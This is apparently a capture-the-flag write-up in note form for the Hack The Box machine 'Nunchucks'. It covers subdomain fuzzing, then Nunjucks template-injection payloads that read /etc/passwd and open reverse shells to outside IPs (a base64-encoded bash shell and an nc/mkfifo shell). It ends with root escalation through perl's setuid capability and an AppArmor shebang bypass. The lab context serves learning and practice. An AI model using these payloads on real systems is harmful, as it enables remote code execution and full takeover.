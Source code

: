 ### VHOST
##### autorecon
```bash
autorecon nunchucks.htb -p 80,443
```

##### mannualy wfuzz or gobuster
```bash
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb 
```

```bash
gobuster vhost -u https://nunchucks.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

### Open a new tab via it after addding to host
https://store.nunchucks.htb/

### Burp to shell
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks

```txt burp
{"email":"{{range.constructor('return global.process.mainModule.require(\"child_process\").execSync(\"tail /etc/passwd\")')()}}@b.com"}

{"email":"{{range.constructor('return global.process.mainModule.require(\"child_process\").execSync(\"echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjEzLzQ0MyAwPiYx | base64 -d | bash\")')()}}@b.com"}

{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 4444 >/tmp/f')\")()}}
```

Grab SSH keys also worked.

### Enum
But since only root can write to `/opt/web_backups`, it’s using `POSIX::setuid(0)` to run as root.

To do this, it must either be SUID or have a capability. It has the `setuid` capability:

```bash
david@nunchucks:/opt$ which perl
/usr/bin/perl
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep

david@nunchucks:/opt$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
```

https://gtfobins.github.io/gtfobins/perl/#capabilities

### AppArmor Config
Apparmor is a way to define access controls much more granularly to various binaries in Linux. There are a series of binary-specific profiles in `/etc/apparmor.d`:

### Root
https://bugs.launchpad.net/apparmor/+bug/1911431

Shebang bypass

When Linux tries to load the script as executable, that line tells it what interpreter to use. For some reason, the AppArmor developers don’t believe that the rules for the interpreter should apply there, and so they don’t.
```bash
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";

"b.pl" [New] 4L, 74C written                        
david@nunchucks:/dev/shm$ perl b.pl 
Can't open perl script "b.pl": Permission denied
david@nunchucks:/dev/shm$ chmod +x b.pl 
david@nunchucks:/dev/shm$ ./b.pl 
root@nunchucks:/dev/shm# id
uid=0(root) gid=1000(david) groups=1000(david)
```

### Writeups
https://0xdf.gitlab.io/2021/11/02/htb-nunchucks.html